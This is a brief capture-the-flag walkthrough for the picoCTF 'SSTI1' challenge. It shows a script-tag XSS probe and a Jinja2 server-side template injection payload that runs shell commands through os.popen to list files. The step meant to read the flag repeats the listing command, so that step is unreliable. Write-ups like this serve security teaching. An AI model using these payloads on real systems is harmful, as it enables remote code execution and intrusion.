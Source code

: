 # PICOCTF : SSTI1

1. Launch the instance from the challenge, and open the link.
2. At the link, you will see a input box that will announce whatever you submit.
3. A possible injection attack, so let's put it to test.
4. Let's try running JS script attack. Input the ff: `<script>alert('test')</script>`. And it WORKED?!
5. After a few other tests, it seems to be irrelevant. (otherwise, if you found something interesting, let me know pls!)
6. Let's try running another injection for a possible Python Flask framework: `{{7*7}}`. IT WORKED!
7. After a few other tests, we are able to access the `/challenge` directory within the os processes using this expression: `{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}`
8. From the rendered http, we can see the listed files:
9. ```
   .
   ..
   __pychache__
   app.py
   flag                                      // NOT SO SUSPICIOUS
   requirements.txt
   ./__pycache__:app.cpython-38.pyc

   ```
10. Now let's use another command to concatenate the `flag` file: `{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}`
11. And voila! Retrieve the picoctf flag.
